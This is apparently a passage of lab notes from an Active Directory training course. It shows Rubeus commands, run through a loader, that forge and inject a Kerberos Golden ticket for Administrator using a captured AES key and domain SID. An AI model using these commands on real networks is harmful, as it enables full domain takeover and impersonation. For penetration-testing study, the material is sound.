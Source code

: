 <figure><img src="../../.gitbook/assets/image (28) (1).png" alt=""><figcaption></figcaption></figure>

```powershell
C:\AD\Tools\Loader.exe Evasive-Golden /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:34:22 AM" /minpassage:1 /logoncount:727 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD
```

now we need to add this command as argument to Loader and forge a Golden ticket adding`C:\AD\Tools\Loader.exe -path`  and `/ptt` at the end of the generated command to inject it in the current process:

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:34:22 AM" /minpassage:1 /logoncount:152 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```
